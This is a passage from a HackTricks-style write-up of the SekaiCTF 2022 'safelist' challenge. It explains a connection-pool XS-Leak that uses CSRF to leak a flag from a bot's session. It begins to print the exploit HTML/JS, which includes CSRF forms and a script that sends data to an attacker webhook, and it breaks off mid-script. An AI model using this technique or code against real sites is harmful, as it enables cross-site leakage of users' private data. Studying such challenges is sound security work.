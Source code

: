 # Connection Pool Examples

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Sekaictf2022 - safelist

In the [**Sekaictf2022 - safelist**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/safelist/solution) challenge, [**@Strellic\_**](https://twitter.com/Strellic\_) gives an example of how to use a **variation** of the **Connection Pool** technique to perform a **XS-Leak**.

In this challenge, the goal is to exfiltrate a flag that will appear in the bots web session inside a post. These are the assets the attacker has:

* The **bot** will **visit** a **URL** given by the attacker
* The attacker can **inject HTML** in the page (but no JS, dompurify is used) abusing a **CSRF** making the **bot create a post** with that HTML.
* The attacker can abuse a CSRF to make the **bot** **delete** the **first** **post** inside the web.
* Because the **posts** are ordered **alphabetically**, when the **first post is deleted**, if the **HTML** content of the attacker is **loaded** means that it was **alphabetically before the flag**.

Therefore, to steal the flag, the solution proposed by @Strellyc\_ is to, **for each char to test** make the bot:

* Create a **new post** that **starts** with the known part of the **flag** and several **img** **loads**.
* **Delete** the **post** in position **0**.
* Block 255 sockets.
* Load the page with the posts
* Perform 5 random requests to a site (example.com in this case) and measure the time this takes.

{% hint style="warning" %}
If the **deleted** post was the **flag**, this means that all the **images** **injected** in the HTML are going to be **fighting** with the **5 random requests** for that **unblocked** socket. Which means that the time measured is going to be bigger than the other scenario.

If the **deleted** post was the **HTML**, the **5 random requests** will be **faster** because they don't need to fight for that socket with the HTML injected.
{% endhint %}

### Exploit 1

This is the exploit code, taken from [https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html](https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html):

```html
<!-- Form to inject HTML code in the bots page -->
<form method="POST" action="https://safelist.ctf.sekai.team/create" id="create" target="_blank">
    <input type="text" name="text" />
    <input type="submit" />
</form>

<!-- Form to delete the first entry -->
<form method="POST" action="https://safelist.ctf.sekai.team/remove" id="remove" target="_blank">
    <input type="text" name="index" value="0" />
    <input type="submit" />
</form>

<script>
    // Attacker listening
    const WEBHOOK = "https://WEBHOOK.com/";
    // Send data to attacker
    const log = (id, data) => {
```